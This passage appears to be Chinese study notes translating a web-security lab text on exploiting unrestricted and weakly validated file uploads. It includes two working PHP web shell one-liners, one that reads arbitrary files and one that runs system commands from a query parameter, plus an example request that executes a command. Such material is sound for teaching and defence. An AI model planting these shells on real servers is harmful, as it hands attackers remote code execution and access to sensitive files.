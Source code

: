 # 利用不受限制的文件上传来部署 Web Shell 

​    从安全角度来看，最糟糕的情况是网站允许您上传服务器端脚本，例如 PHP、Java 或 Python 文件，并且还配置为将它们作为代码执行。这使得在服务器上创建自己的 Web Shell 变得轻而易举。 

> #### Web Shell
>
> ​        Web Shell 是一种恶意脚本，攻击者只需向正确的端点发送 HTTP 请求，就可以在远程 Web 服务器上执行任意命令。     

​    如果您能够成功上传 Web  shell，则您实际上拥有对服务器的完全控制权。这意味着您可以读取和写入任意文件、泄露敏感数据，甚至使用服务器将攻击转向内部基础设施和网络外部的其他服务器。例如，以下 PHP 单行代码可用于从服务器的文件系统中读取任意文件： 

```
<?php echo file_get_contents('/path/to/target/file'); ?>
```

​    上传后，发送针对此恶意文件的请求将在响应中返回目标文件的内容。 

​    一个更通用的 Web shell 可能看起来像这样： 

```
<?php echo system($_GET['command']); ?>
```

​    此脚本允许您通过查询参数传递任意系统命令，如下所示： 

```
GET /example/exploit.php?command=id HTTP/1.1
```

~~这种没有任何限制的文件上传漏洞，直接上传Web Shell即可~~

# 利用文件上传的缺陷验证

在野外，您不太可能找到一个没有保护功能的网站，就像我们在上一个实验中看到的那样，无法抵御文件上传攻击。但仅仅因为防御措施已经到位，并不意味着它们很强大。有时，您仍然可以**利用这些机制中的缺陷来获取用于远程代码执行的 Web shell。**

## 有缺陷的文件类型验证

​    提交 HTML 表单时，浏览器通常会将提供的数据发送到  `POST` 请求，内容类型为  `application/x-www-form-url-encoded`。这适用于发送您的姓名或地址等简单文本。但是，它不适合发送大量二进制数据，例如整个图像文件或 PDF 文档。在这种情况下，内容类型  `multipart/form-data` 是首选。 

​    考虑一个表单，其中包含用于上传图像、提供图像描述和输入用户名的字段。提交此类表单可能会导致请求如下所示： 

```
POST /images HTTP/1.1   
Host: normal-website.com   
Content-Length: 12345 
Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456     ---------------------------012345678901234567890123456    Content-Disposition: form-data; name="image"; filename="example.jpg"   
Content-Type: image/jpeg     [...binary content of example.jpg...]     ---------------------------012345678901234567890123456 
Content-Disposition: form-data; name="description"     This is an interesting description of my image.     ---------------------------012345678901234567890123456 
Content-Disposition: form-data; name="username"     wiener    ---------------------------012345678901234567890123456--
```
